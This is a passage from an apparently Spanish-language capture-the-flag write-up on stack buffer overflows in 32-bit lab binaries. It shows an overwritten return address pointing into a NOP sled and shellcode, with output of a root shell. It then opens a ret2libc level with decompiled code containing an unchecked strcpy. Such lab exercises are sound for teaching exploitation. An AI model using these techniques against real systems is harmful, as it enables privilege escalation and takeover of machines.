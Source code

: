 ```shell
0xffffd520    | \xff\xff\xd5\x20     | \x20\xd5\xff\xff
```

Ahora lo que vamos a hacer es cambiar los `4 B` que habias puesto por la direccion en los nops esto para que los nops se desplacen en la pila asta llegar al shellcode y se ejecute

IMPORTANTE: en caso de que no te de una shell prueba cambiando la direccion para que te de una shell

```
❯ ./levelThree $(python2 pwned3.py)
Buf: j
      XRh//shh/bin1̀P
# whoami
root
# 
```

## Level 4


En el siguiente binario vamos a usar la tecnica `rebase2libc`, consiste en  explotar un buffer overflow para hacer que el programa salte a una función en la biblioteca estándar C (libc), en lugar de saltar a su propio código malicioso. Esto puede ser más fácil y menos detectable que inyectar y ejecutar código malicioso directamente.

```shell
❯ file levelFour
levelFour: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=845e990443a38b38a87fb868319fd05d7f87a144, not stripped
```

Usaremos ghidra para ver las funciones del binario

Ahora vamos a ver la funcion main y vemos que hace lo mismo del binario anterior

```c
undefined4 main(undefined4 param_1,int param_2)

{
  __uid_t __ruid;
  
  __ruid = geteuid();
  setresuid(__ruid,__ruid,__ruid);
  overflow(*(undefined4 *)(param_2 + 4));
  return 0;
}
```

Vamos a ver la funcion overflow

Ahora le esta dando 20 bytes al buffer

```c
void overflow(char *param_1)

{
  char local_1c [20];
  
  strcpy(local_1c,param_1);
  printf("Buf: %s\n",local_1c);
  return;
}
```
